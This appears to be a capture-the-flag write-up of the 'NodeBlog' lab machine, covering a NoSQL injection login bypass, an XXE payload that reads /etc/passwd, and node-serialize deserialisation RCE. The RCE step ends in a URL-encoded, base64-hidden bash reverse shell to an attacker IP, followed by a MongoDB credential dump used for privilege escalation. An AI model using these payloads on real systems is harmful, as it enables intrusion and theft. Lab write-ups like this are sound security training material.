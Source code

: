 ```yaml
---
description: H
---
```


# NodeBlog

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.160
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-08 07:30 EST
Nmap scan report for 10.129.96.160
Host is up (0.013s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

### NoSQL Login Bypass

This was a UHC qualifier box in 2021.

<figure><img src="../../../.gitbook/assets/image (11) (2) (6).png" alt=""><figcaption></figcaption></figure>

There was a login functionality there. I tested some SQL Injection but to no avail. Because this was a UHC box, this was probably the way in. I tested some NoSQL injection and it worked in bypassing it!

```http
POST /login HTTP/1.1
Host: 10.129.96.160:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 56
Origin: http://10.129.96.160:5000
Connection: close
Referer: http://10.129.96.160:5000/login
Upgrade-Insecure-Requests: 1

{
"user": "admin",
"password": {"$ne": "admin"}

}
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (6) (1).png" alt=""><figcaption></figcaption></figure>

### XXE Injection

All of the functions do nothing much, except for the Upload one. When trying to upload something, I get this error:

```
Invalid XML Example: Example DescriptionExample Markdown
```

This indidates that we have to upload a malicious XML file to achieve XXE injection for our reverse shell. Taking a look at the POST request in Burpsuite reveals that we need this format:

<figure><img src="../../../.gitbook/assets/image (17) (1) (4).png" alt=""><figcaption></figcaption></figure>

I headed to PayloadAllTheThings to try some XXE injection payloads, and it worked rather well:

```markup
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>mypost</title>
        <description>testfile</description>
        <markdown>&file;</markdown>
</post>
```

Then we can save this into a file and upload it. The output would be printed in the `markdown` area:

<figure><img src="../../../.gitbook/assets/image (19) (7) (1).png" alt=""><figcaption></figcaption></figure>

Earlier while testing my NoSQL injections, I did run across an error like this:

<figure><img src="../../../.gitbook/assets/image (16) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

So the source code files are in `/opt/blog`. A bit more testing revealed the main file to be `server.js`.

```javascript
const express = require(&#39;express&#39;)
const mongoose = require(&#39;mongoose&#39;)
const Article = require(&#39;./models/article&#39;)
const articleRouter = require(&#39;./routes/articles&#39;)
const loginRouter = require(&#39;./routes/login&#39;)
const serialize = require(&#39;node-serialize&#39;)
const methodOverride = require(&#39;method-override&#39;)
const fileUpload = require(&#39;express-fileupload&#39;)
const cookieParser = require(&#39;cookie-parser&#39;);
const crypto = require(&#39;crypto&#39;)
const cookie_secret = &#34;UHC-SecretCookie&#34;
//var session = require(&#39;express-session&#39;);
const app = express()

mongoose.connect(&#39;mongodb://localhost/blog&#39;)

app.set(&#39;view engine&#39;, &#39;ejs&#39;)
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride(&#39;_method&#39;))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: &#34;UHC-SecretKey-123&#34;}));

function authenticated(c) {
    if (typeof c == &#39;undefined&#39;)
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash(&#39;md5&#39;).update(cookie_secret + c.user).digest(&#39;hex&#39;)) ){
        return true
    } else {
        return false
    }
}


app.get(&#39;/&#39;, async (req, res) =&gt; {
    const articles = await Article.find().sort({
        createdAt: &#39;desc&#39;
    })
    res.render(&#39;articles/index&#39;, { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use(&#39;/articles&#39;, articleRouter)
app.use(&#39;/login&#39;, loginRouter)


app.listen(5000)
```

First thing I notice is that **there is unserialisation going on**. This web application must be vulnerable to RCE through Deserialisation. This article showed up when I searched for this exploit:

{% embed url="https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/" %}

I tested the token given there and it worked: (after URL encoding)

```
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27ping%20-c%201%2010.10.14.39%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D%0A
```

Now, we can replace the `ping` command I used above with a reverse shell:

```bash
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27echo%20%5C%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4zOS84ODg4IDA%2BJjEK%5C%22%20%7C%20base64%20-d%20%7C%20bash%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D%0A
```

This uses base64 to encode the shell one-liner and connect to port 8888.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

When trying to read the user flag, I found out that we did not have access to our own home directory. This was because of the permissions set:

```
admin@nodeblog:/home$ ls -la
ls -la
total 16
drwxr-xr-x 1 root  root   10 Dec 27  2021 .
drwxr-xr-x 1 root  root  180 Dec 27  2021 ..
drw-r--r-- 1 admin admin 220 Jan  3  2022 admin
```

We can correct this with `chmod 777 admin`.

## Privilege Escalation

I ran a LinPEAS scan on this machine and found the `mongoDB` credentials file.

```
mongodb      802  0.3  1.8 981772 76124 ?        Ssl  16:38   0:08 /usr/bin/mongod --unixSocketPrefix=/run/mongodb --config /etc/mongodb.conf
```

Earlier we used NoSQL injection to access this, and perhaps we can find the actual credentials for the `admin` user (so that I can check `sudo` privleges). Some DBs and collections can be found here.

<figure><img src="../../../.gitbook/assets/image (10) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

I could find a password from the users collections.

{% code overflow="wrap" %}
```
>  db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
{% endcode %}

We can use this to check `sudo` privileges and find an easy root path:

<figure><img src="../../../.gitbook/assets/image (14) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>
